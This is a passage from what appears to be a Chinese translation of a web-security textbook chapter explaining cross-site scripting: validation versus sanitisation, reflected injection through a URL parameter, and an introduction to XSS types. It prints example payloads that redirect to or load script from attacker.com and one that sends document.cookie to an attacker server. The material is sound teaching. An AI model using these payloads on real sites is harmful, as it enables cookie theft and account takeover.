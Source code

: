 ![f06004](img/f06004.png)

图 6-4：攻击者可以在输入字段中输入脚本而不是电子邮件。

如果网站在构建确认消息之前没有验证或清理用户输入，页面源代码将变成以下内容：

```
<p>Thanks! You have subscribed <b>**<script>location="http://attacker.com";</script>**</b> to the newsletter.</p>
```

*验证*用户输入意味着应用程序检查用户输入是否符合某个标准——在这种情况下，不包含恶意的 JavaScript 代码。另一方面，*清理*用户输入意味着应用程序会在进一步处理之前修改输入中的特殊字符，这些字符可能会干扰 HTML 逻辑。

结果是，内联脚本会导致页面重定向到 *attacker.com*。XSS 发生在攻击者能够以这种方式将脚本注入到另一个用户正在查看的页面时。攻击者还可以使用不同的语法嵌入恶意代码。HTML `<script>` 标签的 `src` 属性允许你从外部源加载 JavaScript。这段恶意代码将在 XSS 攻击期间执行 *http://attacker.com/xss.js/* 的内容，目标浏览器中：

```
<script src=http://attacker.com/xss.js></script>
```

这个例子实际上并不可被利用，因为攻击者无法在其他用户的页面上注入恶意脚本。他们最多只能将自己重定向到恶意页面。但假设该网站还允许用户通过访问 URL*https://subscribe.example.com?email=SUBSCRIBER_EMAIL*来订阅新闻邮件。在用户访问该 URL 后，他们将自动订阅，且网页上会显示相同的确认信息。在这种情况下，攻击者可以通过欺骗用户访问恶意 URL 来注入脚本：

```
https://subscribe.example.com?email=<script>location="http://attacker.com";</script>
```

由于恶意脚本被嵌入到页面中，受害者的浏览器会认为该脚本是该网站的一部分。然后，注入的脚本可以访问浏览器为该网站存储的任何资源，包括 cookies 和会话令牌。因此，攻击者可以利用这些脚本窃取信息并绕过访问控制。例如，攻击者可能会通过使受害者的浏览器向攻击者的 IP 发送请求，同时将受害者的 cookie 作为 URL 参数，来窃取用户的 cookie：

```
<script>image = new Image();
image.src='http://attacker_server_ip/?c='+document.cookie;</script>
```

该脚本包含 JavaScript 代码，用于从攻击者的服务器加载图片，并将用户的 cookies 作为请求的一部分。浏览器会向攻击者的 IP 发送 GET 请求，URL 参数`c`（代表*cookie*）包含用户的`document.cookie`，即当前网站上受害者用户的 cookie。通过这种方式，攻击者可以通过检查他们服务器日志中的传入请求，利用 XSS 窃取其他用户的 cookies。请注意，如果会话 cookie 设置了`HttpOnly`标志，JavaScript 将无法读取该 cookie，因此攻击者无法将其提取出来。不过，XSS 仍然可以用来代表受害者执行操作、修改受害者正在查看的网页，并读取受害者的敏感信息，如 CSRF 令牌、信用卡号码以及网页上呈现的其他任何细节。

## XSS 类型

XSS 有三种类型：存储型 XSS、反射型 XSS 和基于 DOM 的 XSS。这些类型之间的区别在于 XSS 负载在传送到受害者用户之前的传播方式。有些 XSS 漏洞还属于特殊类别：盲 XSS 和自我 XSS，我们稍后会讲到。

### 存储型 XSS

*存储型 XSS*发生在用户输入被存储在服务器上并且未经过安全处理时。当应用程序接受未经验证的用户输入，将其存储在服务器上，然后在未进行清理的情况下渲染到用户的浏览器中时，恶意的 JavaScript 代码就可能进入数据库并最终传送到受害者的浏览器。
